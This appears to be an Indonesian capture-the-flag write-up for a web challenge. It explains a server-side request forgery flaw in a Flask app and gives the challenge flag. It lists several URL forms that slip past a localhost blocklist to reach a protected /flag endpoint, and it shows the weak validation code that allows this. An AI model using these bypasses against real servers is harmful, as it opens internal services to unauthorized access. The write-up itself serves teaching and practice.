



# Requests

Author: daffainfo

Category: Web

Flag: `HCS{EsEsErEf_1s_4w3s0m3}`

## Description
Let's ping the website!!

## Difficulty
Easy

## Solution
Mari kita analisis terlebih dahulu source code yang ada

```php
@app.route("/")
	...

@app.route("/urls", methods=["POST"])
	...

@app.route("/flag")
	...
```

Terdapat 3 endpoint yang ada pada website ini yaitu `/`, `/urls` dengan POST method, dan `/flag`. Kemudian flagnya terletak pada endpoint `/flag`, namun untuk mendapatkan flag ini, kita harus mengakses endpoint tersebut dari localhost

```py
@app.route("/flag")
def flag():
    if request.remote_addr == "127.0.0.1":
        return "HCS{fake_flag}"
    else:
        return "Access denied. This endpoint can only be accessed from localhost."
```

Jika diakses langsung, maka akan muncul pesan `Access denied. This endpoint can only be accessed from localhost.`



Kemudian mari kita analisis endpoint `/urls`

```py
@app.route("/urls", methods=["POST"])
def process_url():
    data = request.form.get("target")
    if data:
        if is_valid_url(data):
            try:
                resp = requests.get(data)
                return resp.content
            except requests.exceptions.ConnectionError:
                return "Failed to establish a connection.", 400
        else:
            return "Invalid URL format or restricted URL."
    else:
        return "No URL provided."
```

Pada endpoint `/urls` ini akan mengirimkan HTTP request dari localhost sesuai hasil input kita, dan kemudian hasilnya akan langsung ditampilkan pada website. Sebagai contoh, saya akan menginput website saya yaitu https://daffa.info



Untuk mendapatkan flagnya, seharusnya kita bisa menginputkan `http://127.0.0.1:5555/flag` pada website. Namun, karena ada fungsi `is_valid_url` untuk memprevent hal tersebut

```py
def is_valid_url(url):
    if url.startswith(("http://", "https://")):
        parsed_url = urlparse(url)
        if parsed_url.hostname not in ("localhost", "127.0.0.1"):
            return True
    return False
```

Pada fungsi tersebut, kita tidak bisa memasukkan `localhost` maupun `127.0.0.1` pada input kita. Untuk membypass hal tersebut, maka terdapat banyak bypass yang bisa digunakan seperti contoh dibawah

```
http://0.0.0.0:5555/flag
http://127.1:5555/flag
http://127.0.1:5555/flag
http://127.127.127.127:5555/flag
```

Dan masih banyak lagi jenis bypassnya (Hal ini dapat dilihat pada repository [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md))

